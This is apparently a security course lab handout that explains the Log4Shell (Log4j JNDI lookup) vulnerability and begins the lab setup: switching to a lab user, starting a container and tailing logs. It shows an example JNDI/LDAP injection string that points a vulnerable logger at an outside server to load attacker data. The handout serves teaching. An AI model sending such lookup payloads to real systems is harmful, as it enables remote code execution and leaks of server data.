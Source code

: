 Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs <a href="https://logging.apache.org/log4j/2.x/manual/lookups.html"><strong>lookups</strong></a> which allow for <a href="https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html"><strong>string</strong></a> <a href="https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html"><strong>substitution</strong></a> of certain strings. These are in the form of <strong>${prefix:name} </strong>i.e. a common one would be <strong>${java:runtime} </strong>and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <strong>${jndi:&lt;lookup&gt;} </strong>is a valid lookup expression recognized by the lookup by Log4J.

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <strong>${jndi:ldap://cs6035.com/exploitfile} </strong>which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

<h1>SETUP</h1>
To get setup for the flags, follow the steps <u>carefully </u>below, and be sure you are running each in a separate terminal window as noted.

You will need switch users to login to log4j user via:

<table width="624">
<tbody>
<tr>
<td width="144"><strong>Username: log4j</strong></td>
<td width="480"><strong>Password: konami-code</strong></td>
</tr>
</tbody>
</table>
In the home directory of log4j user, start the container with the start script:

sudo ./StartContainer.sh

Open a new terminal window and go to “Desktop/log4shell/logs”:

cd Desktop/log4shell/logs

Run the following command to view the logs:

tail -f cs6035.log

You should now see the tail of the log file from the application running.

<strong>*****If the logs stop populating, then just stop and restart the tail. This is happening because the data logged gets too large so the log “rolls over” to another file.*******</strong>
